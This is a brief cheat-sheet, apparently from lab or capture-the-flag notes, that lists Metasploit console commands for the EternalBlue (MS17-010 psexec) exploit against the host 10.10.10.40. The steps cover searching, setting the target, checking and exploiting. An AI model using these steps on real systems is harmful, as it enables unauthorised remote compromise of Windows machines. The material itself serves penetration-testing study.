 #### Metasploit

```
msfconsole # Stating Metasploit
search exploit eternalblue # Search vulnerabilities
use exploit/windows/smb/ms17_010_psexec # use exploit
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40 # Set configuration
msf6 exploit(windows/smb/ms17_010_psexec) > check # Check if the target is vulnerable
msf6 exploit(windows/smb/ms17_010_psexec) > exploit # Exploit the vulnerability
```
